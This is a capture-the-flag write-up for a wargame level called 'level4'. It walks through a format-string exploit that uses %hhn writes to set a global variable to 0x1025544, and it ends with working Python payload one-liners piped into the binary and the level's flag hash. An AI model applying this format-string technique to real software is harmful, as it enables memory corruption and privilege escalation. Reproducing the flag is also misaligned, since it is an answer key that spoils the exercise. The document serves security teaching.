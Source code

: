 # level4

We find an executable `level4`. We examine it in Cutter. We determine it's similar to `level3` ; we'll have to exploit `%n` to set a variable to a specific value.

However, something's different this time : the number to write with `%n` is too big, we can't write that many bytes.

However, we can still take advantage of `%n`, using the `h` flag : `%hn` is for `short int`, and `%hhn` for `short short int` which allows us to write a one-byte value.

Here's what we'll do : we'll break down the 4-byte int, specify the 4 bytes as individual addresses and fill them with the corresponding byte.

## The value

Cutter reveals our variable should have the value `0x1025544`.

This can be broken down in four :
- `0x01` or `1`
- `0x02` or `2`
- `0x55` or `85`
- `0x44` or `68`

The `%n` count doesn't reset, so we'll write the total in ascending order. We'll need to write `1` char and fill the first byte ; write `1` char and fill the second byte ; write `66` chars and fill the last byte ; and write `17` chars and fill the third byte.

## The address

Cutter tells us the variable to change.

Running `info variable` in `gdb` yields us `m`'s address : `0x08049810`.

This gives us our four addresses (without forgetting to reverse the order for endianness) :

- Write value `0x01` to address `0x08049813`
- Write value `0x02` to address `0x08049812`
- Write value `0x55` to address `0x08049811`
- Write value `0x44` to address `0x08049810`

## The buffer

Quick experimentation reveals the beginning of the buffer is at spot `%12$`.

We'll want our buffer to look like the following :

```
12   13   14   15   16   17   18   19   20   21
AAAA BBBB CCCC DDDD EEEE FFFF GGGG HHHH IIII JJJJ

22   23   24   25   26   27   28   29   30   31
KKKK LLLL MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UUUU VVVV WWWW XXXX YYYY ZZZZ ++++ ---- ....
```

We write our `%??$hhn` after `1`, `2`, `68` and `85` bytes written (don't forget `%??$hhn` doesn't count as written bytes) :

```
12   13   14   15   16   17   18   19   20   21
A%?? $hhn C%?? $hhn EEEE FFFF GGGG HHHH IIII JJJJ

22   23   24   25   26   27   28   29   30   31
KKKK LLLL MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UU%? ?$hh nWWW XXXX YYYY ZZZZ ++%? ?$hh n...
```

We add our addresses in spots `20-23` :

```
12   13   14   15   16   17   18   19   20         21
A%?? $hhn C%?? $hhn EEEE FFFF GGGG HHHH 0x08049810 0x08049811

22         23         24   25   26   27   28   29   30   31
0x08049812 0x08049813 MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UU%? ?$hh nWWW XXXX YYYY ZZZZ ++%? ?$hh n...
```

Now all that's left is replacing each `??` with the index of the address you wanna fill each value with :

```
12   13   14   15   16   17   18   19   20         21
A%23 $hhn C%22 $hhn EEEE FFFF GGGG HHHH 0x08049810 0x08049811

22         23         24   25   26   27   28   29   30   31
0x08049812 0x08049813 MMMM NNNN OOOO PPPP QQQQ RRRR SSSS TTTT

32   33   34   35   36   37   38   39   40
UU%2 0$hh nWWW XXXX YYYY ZZZZ ++%2 1$hh n...
```

## The exploit

We turn that into something we can output in Python :

```
python -c 'print("A%23$hhnC%22$hhnEEEEFFFFGGGGHHHH\x10\x98\x04\x08\x11\x98\x04\x08\x12\x98\x04\x08\x13\x98\x04\x08MMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUU%20$hhnWWWXXXXYYYYZZZZ++%21$hhn...")'
```

After a little cleanup, we get :

```
python -c 'print("_%23$hhn_%22$hhn________________\x10\x98\x04\x08\x11\x98\x04\x08\x12\x98\x04\x08\x13\x98\x04\x08__________________________________%20$hhn_________________%21$hhn")'
```

## The flag

Now we just have to pipe that to `level4`, who directly runs `system ("/bin/cat /home/user/level5/.pass");`

```
python -c 'print("_%23$hhn_%22$hhn________________\x10\x98\x04\x08\x11\x98\x04\x08\x12\x98\x04\x08\x13\x98\x04\x08__________________________________%20$hhn_________________%21$hhn")' | ./level4
```

It works ! We get the `level4` flag :

```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```